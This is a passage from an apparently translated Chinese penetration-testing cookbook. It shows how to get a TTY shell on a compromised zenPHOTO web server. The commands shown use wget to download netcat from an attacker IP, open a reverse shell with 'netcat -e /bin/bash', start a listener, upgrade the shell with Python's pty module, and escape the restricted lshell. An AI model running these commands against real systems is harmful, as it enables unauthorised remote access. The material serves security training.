 我们已经涵盖了不同类型的特权升级。现在让我们看一些关于如何在这个系统上获取 TTY shell 的例子。TTY 展示了一个简单的文本输出环境，允许我们输入命令并获取输出。

# 如何做...

1.  让我们看一个例子，我们有一个运行 zenPHOTO 的 Web 应用程序：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-eth-hkr-cc/img/1df99474-bae8-444e-8ce4-f6499ccf736c.png)

1.  zenPHOTO 已经有一个公开的漏洞正在运行，我们通过有限的 shell 获得了对它的访问：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-eth-hkr-cc/img/71dccab9-1325-45e2-a316-cfc79f2add44.png)

1.  由于这是一个有限的 shell，我们尝试逃离它，并通过首先在系统上上传`netcat`，然后使用`netcat`来获取反向连接。

```
 wget x.x.x.x/netcat –o /tmp/netcat
```

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-eth-hkr-cc/img/97b42970-b8ee-49ba-b65b-0227a40cc547.png)

1.  现在我们可以使用以下命令进行反向连接：

```
 netcat <our IP > -e /bin/bash <port number>
```

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-eth-hkr-cc/img/0a0a6460-ac7c-438d-a887-d2fa62a4247a.png)

1.  看着我们的终端窗口，在那里我们设置了监听器，我们会看到一个成功的连接：

```
 nc –lnvp <port number>
```

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-eth-hkr-cc/img/bc9d7e89-ab1b-4d7a-9621-957fb743e7e3.png)

让我们获取一个更稳定的 TTY shell；假设这是一个 Linux 系统，我们已经在上面安装了 Python，并且我们可以使用这个命令获取一个 shell：

```
python -c 'import pty; pty.spawn("/bin/sh")'
```

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-eth-hkr-cc/img/8c23665a-29d9-4849-a7ec-802f1bf37808.png)

我们现在有了一个更好的执行命令的方式。有时，我们可能会发现自己处于这样一种情况：我们通过 ssh 或其他方法获得的 shell 是一个有限的 shell。

一个非常著名的有限 shell 是`lshell`，它只允许我们运行一些命令，比如`echo`、`ls`、`help`等。逃离`lshell`很容易，因为我们只需要输入这个：

```
echo os.system('/bin/bash')
```

然后我们就可以访问一个没有更多限制的命令 shell。

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-eth-hkr-cc/img/65dfc583-757e-412e-a60a-a1183fa69944.png)

# 还有更多...
